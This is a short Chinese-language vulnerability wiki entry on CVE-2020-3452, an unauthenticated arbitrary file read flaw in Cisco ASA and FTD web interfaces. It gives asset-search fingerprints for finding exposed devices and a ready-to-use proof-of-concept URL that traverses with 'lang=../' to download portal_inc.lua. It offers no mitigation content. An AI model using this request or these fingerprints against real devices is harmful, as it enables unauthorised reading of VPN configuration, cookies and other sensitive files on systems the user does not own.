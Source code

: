 # Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](/assets/PeiQi-Wiki/img/cisco-1-20220314135401585.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](/assets/PeiQi-Wiki/img/cisco-2-20220314135403447.png)



## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>



## 漏洞复现

验证POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件



![img](/assets/PeiQi-Wiki/img/cisco-4.png)



## 